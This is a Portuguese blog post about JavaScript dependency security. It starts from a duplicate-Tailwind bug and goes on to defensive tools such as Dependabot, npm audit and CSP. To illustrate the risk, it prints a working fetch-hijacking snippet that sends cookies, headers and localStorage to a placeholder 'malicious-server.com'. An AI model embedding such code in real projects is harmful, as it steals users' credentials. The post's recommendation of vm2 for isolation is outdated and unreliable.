 # O Problema Real das Dependências JavaScript: Uma Lição Prática

## O Bug que Revelou um Problema Maior

Ontem tivemos um bug bem esquisito no front-end. Quando o Bero subiu a versão nova, o front carregava tudo cagado. Consegui consertar, mas aí notei que eu aplicava uma borda CSS em um elemento e a coisa renderizava certo inicialmente, mas imediatamente mudava a aparência. Fiquei um tempo achando que era problema no meu código até descobrir que tinha duas versões diferentes do Tailwind instaladas no projeto.

O que aconteceu foi simples: eu tinha instalado uma versão para teste e esqueci de remover. As duas versões estavam processando o CSS de maneiras diferentes, criando um conflito onde uma sobrescrevia a outra. Isso caracteriza uma breaking change significativa entre versões do framework.

Mas esse bug específico me fez pensar em uma questão muito mais ampla: a falta de segurança fundamental do JavaScript.

## JavaScript: Uma Linguagem Sem Barreiras de Segurança

 JavaScript não tem nenhum sistema de segurança nativo. Quando você instala uma dependência no seu projeto, ela ganha acesso total ao ambiente de execução. Isso significa que ela pode modificar qualquer variável global, acessar todas as APIs do browser e executar código arbitrário sem limitações.

Pense no seguinte cenário: você instala uma biblioteca para formatação de datas. Em teoria, ela deveria apenas formatar datas. Na prática, ela pode acessar seu localStorage, interceptar suas requisições HTTP, modificar o DOM, acessar cookies de autenticação e enviar todos esses dados para um servidor externo.

### Exemplos Práticos de Vulnerabilidades

Deixa eu mostrar como isso funciona na prática. Uma dependência maliciosa pode facilmente interceptar todas as suas chamadas de API:

```javascript
// Código executado por uma dependência aparentemente inocente
const originalFetch = window.fetch;

window.fetch = function(url, options) {
  // Intercepta todos os dados sendo enviados
  const requestData = {
    url: url,
    body: options?.body,
    headers: options?.headers,
    cookies: document.cookie,
    localStorage: {...localStorage}
  };
  
  // Envia os dados para um servidor malicioso
  originalFetch('https://malicious-server.com/collect', {
    method: 'POST',
    body: JSON.stringify(requestData)
  });
  
  // Executa a requisição original para você não suspeitar
  return originalFetch.call(this, url, options);
};
```

O código acima é executado assim que a dependência é carregada. A partir desse momento, toda comunicação do seu app com APIs externas passa pelo código malicioso primeiro. Você não vai perceber nada de diferente no funcionamento da aplicação, mas todos os seus dados estão sendo vazados.

Outro exemplo comum é a manipulação de variáveis globais:

```javascript
// Substituindo funções críticas do seu código
Object.defineProperty(window, 'localStorage', {
  get() {
    // Retorna um localStorage fake que grava tudo num servidor remoto
    return maliciousLocalStorage;
  }
});
```

### Por Que Esse Problema Existe?

JavaScript foi originalmente criado para adicionar interatividade simples a páginas web. Naquela época, o máximo que um script fazia era validar um formulário ou criar alguns efeitos visuais. Não existia conceito de aplicações complexas com centenas de dependências.

O problema é que a linguagem evoluiu para construir aplicações sofisticadas, mas manteve o modelo de execução original onde todo código roda no mesmo contexto, com os mesmos privilégios. Não existe isolamento, sandboxing ou sistema de permissões por padrão.

## Ferramentas Essenciais para Mitigar os Riscos

Diante dessa realidade, algumas ferramentas se tornaram absolutamente críticas para a segurança de projetos JavaScript.

### Dependabot: Monitoramento Contínuo de Vulnerabilidades

O Dependabot monitora constantemente suas dependências em busca de vulnerabilidades conhecidas. Quando uma falha de segurança é descoberta em uma biblioteca que você usa, ele automaticamente cria um pull request sugerindo a atualização para uma versão corrigida.

O que torna o Dependabot valioso é que ele não apenas detecta problemas, mas também fornece contexto sobre a severidade da vulnerabilidade e instruções específicas para correção. Isso transforma o processo de manutenção de segurança de uma tarefa manual e propensa a erros em um processo automatizado e confiável.

### Code Scan: Análise Estática de Código

Ferramentas de code scan analisam o código-fonte das suas dependências em busca de padrões suspeitos ou comportamentos anômalos. Elas podem detectar quando uma biblioteca está tentando acessar APIs que não fazem sentido para sua funcionalidade declarada.

Por exemplo, se uma biblioteca de manipulação de strings está tentando acessar a API de geolocalização do browser, isso levanta uma bandeira vermelha. A análise estática pode capturar essas inconsistências antes que o código seja executado em produção.

## Estratégias Práticas de Proteção

### Auditoria Regular de Dependências

Execute `npm audit` ou `yarn audit` regularmente. Esses comandos verificam suas dependências contra bancos de dados de vulnerabilidades conhecidas. Trate os avisos de segurança com seriedade e atualize as dependências vulneráveis imediatamente.

### Gerenciamento Rigoroso de Versões

Use lock files (`package-lock.json` ou `yarn.lock`) para garantir que todos os ambientes usem exatamente as mesmas versões das dependências. Isso previne atualizações acidentais que podem introduzir vulnerabilidades.

### Content Security Policy (CSP)

Implemente CSP headers rigorosos no seu servidor. O CSP permite definir exatamente quais recursos podem ser carregados e executados na sua aplicação. Scripts que não estão na whitelist são automaticamente bloqueados pelo browser.

### Princípio do Menor Privilégio

Antes de instalar qualquer dependência, questione se ela realmente precisa dos acessos que está solicitando. Uma biblioteca de formatação de texto não deveria precisar acessar o localStorage ou fazer requisições de rede.

### Isolamento em Ambientes Node.js

Para aplicações Node.js, considere usar ferramentas como `vm2` que permitem executar código de dependências em ambientes isolados com permissões limitadas. Isso cria uma camada adicional de proteção contra código malicioso.

## A Realidade do Desenvolvimento Moderno

A verdade é que desenvolver aplicações JavaScript modernas sem dependências externas é praticamente impossível. O ecossistema npm oferece soluções incríveis que aceleram drasticamente o desenvolvimento. O problema não é usar dependências, mas usar sem consciência dos riscos.

Cada `npm install` que você executa é uma decisão de confiança. Você está confiando não apenas no autor da biblioteca, mas em todos os mantenedores, em todas as dependências transitivas e em todo o processo de distribuição através do npm.

## Conclusão: Segurança como Responsabilidade Compartilhada

O bug do Tailwind que mencionei no início foi relativamente simples de resolver. Mas ele me fez refletir sobre um problema muito maior: JavaScript é uma linguagem que coloca toda a responsabilidade de segurança nas mãos do desenvolvedor.

Ferramentas como Dependabot e code scan não são opcionais em projetos sérios. Elas representam nossa única linha de defesa em um ecossistema onde, por design, não existem barreiras de proteção nativas.

A lição principal é que segurança em JavaScript não é um problema que você resolve uma vez e esquece. É um processo contínuo que requer vigilância constante, ferramentas adequadas e uma mentalidade de desconfiança saudável em relação a código de terceiros.

No final das contas, JavaScript continua sendo uma plataforma incrível para desenvolvimento. Mas como qualquer ferramenta poderosa, ela exige respeito e cuidado no uso. A chave está em entender os riscos e tomar as precauções adequadas.

